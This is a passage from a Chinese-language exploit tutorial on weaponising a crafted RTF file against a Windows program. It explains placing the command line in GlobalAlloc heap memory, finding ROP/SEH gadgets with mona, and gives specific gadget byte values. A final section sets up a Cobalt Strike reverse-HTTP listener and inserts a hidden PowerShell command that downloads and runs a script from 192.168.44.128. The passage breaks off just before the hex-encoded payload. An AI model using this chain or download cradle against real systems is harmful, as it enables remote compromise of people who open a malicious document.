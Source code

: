 **4、&amp;lpCmdLine相关<br>**<br>
4.1、第一步确定cmdline要放rtf文件中的哪里

可以放在rop链的最后。rtf文件打开时，程序会把对应的内容加载到堆中。

⚠注意：从伪代码里看到，程序使用了GlobalLock来获取指针。所以不能用malloc的思路去理解globalalloc的堆分配思路。

⚠通用句柄HANDLE有时候是逻辑指针，大多数时候是结构体指针，特殊句柄如HMENU等是结构体指针。

4.2、第二步确定cmdline在内存中的什么位置

cmdline被放在堆中，因为程序使用了globalalloc来申请堆，这种堆只能用globallock函数来读取，所以只能从程序中找globallock函数来获取cmdline的指针。同时要注意globallock函数只是把句柄转换为了指针，不能实现类似memcpy的功能。

导⼊表⾥没有memcpy函数，所以只能使⽤实现内存拷⻉的函数，例如sub_43ECFA。

[![](https://p5.ssl.qhimg.com/t01d5aa964ffb970007.png)](https://p5.ssl.qhimg.com/t01d5aa964ffb970007.png)

**5、寻找Gadgets<br>**<br>
使用immunity debugger的mona脚本寻找合适的Gadgets。

```
//使用下面的命令搜索pop pop ret 格式指令
!mona seh -m KERNEL32.dll -cpb ‘\x00\x0a\x0d’

//使用下面的命令搜索可用的 pop ret 格式指令
!mona rop -m *.dll -cpb ‘\x00\x0a\x0d’
```

[![](https://p1.ssl.qhimg.com/t011b605c959b2ced3c.png)](https://p1.ssl.qhimg.com/t011b605c959b2ced3c.png)

选取相应的值给Gadgets1和Gadgets2赋值。为了payload的通用性，结果如下：

<code>Gadgets1="\x92\xb7\x44\x00"<br>
Gadgets2="\xd6\x74\x44\x00"</code>



## 06 利用上线

在cc上部署cs端，在80端口上开启反向http。

[![](https://p3.ssl.qhimg.com/t01268f145e6da03965.png)](https://p3.ssl.qhimg.com/t01268f145e6da03965.png)

使用scripted web delivery(s)的方式发布在线ps1文件。

[![](https://p2.ssl.qhimg.com/t010acb9b831cf5aa70.png)](https://p2.ssl.qhimg.com/t010acb9b831cf5aa70.png)

[![](https://p1.ssl.qhimg.com/t017f1ffc7868e3bd1d.png)](https://p1.ssl.qhimg.com/t017f1ffc7868e3bd1d.png)

则上述payload中的cmdline替换为下面的命令：

`powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.44.128:80/a'))"`

16进制编码后成为：
